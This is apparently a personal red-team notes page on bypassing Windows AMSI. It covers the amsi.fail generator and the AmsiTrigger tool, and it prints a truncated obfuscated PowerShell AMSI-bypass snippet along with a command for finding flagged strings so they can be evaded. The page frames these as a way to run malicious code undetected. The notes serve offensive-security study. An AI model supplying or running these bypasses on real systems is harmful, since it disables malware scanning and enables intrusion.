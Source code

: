 The first automation tool we will look at is [amsi.fail](http://amsi.fail/)
`amsi.fail` will compile and generate a Powershell bypass from a collection of known bypasses. It generates obfuscated PS snippets that break or disable AMSI for the current process. These snippets are randomly selected from a small pool of techniques/variation before obfuscating. Every snippet is obfuscated at runtime so that no generated output shares the same signatures. 
Giving us things like
```powershell
$d=$null;$qcgcjblv=[$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).Runtime.InteropServices.Marshal]::AllocHGlobal((9076+7561-7561));$pkgzwpahfwntq="+('lwbj'+'cymh').NORmaliZe([CHar]([byTe]0x46)+[char](111)+[ChAR]([ByTE]0x72)+[chaR](109*73/73)+[ChAR]([ByTE]0x44)) -replace [char]([bytE]0x5c)+[Char](112*106/106)+[char]([bYte]0x7b)+[chAR]([BYtE]0x4d)+[CHAR](110+8-8)+[CHAr]([BytE]0x7d)";[Threading.Thread]::Sleep(1595);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -
(...)
```
We can attach this bypasses at the beginning of our code or run it in the same session before executing malicious code.

---

[[Signature Evasion#Automation|AMSITrigger]] allows us to automatically identify strings that are flagging signatures to modify and break them. This method of bypassing AMSI is more consistent than others because we are making the file itself clean. With a simple syntax, we just need to provide the file to check and it should spit the bad lines
```powershell
AmsiTrigger_x64.exe -i "bypass.ps1" -f 3
```
We can just [[Obfuscation|obfuscate]], change or [[AV Evasion Shellcode#Encoding and Encryption|encode]] them, and we should be golden from AMSI at least.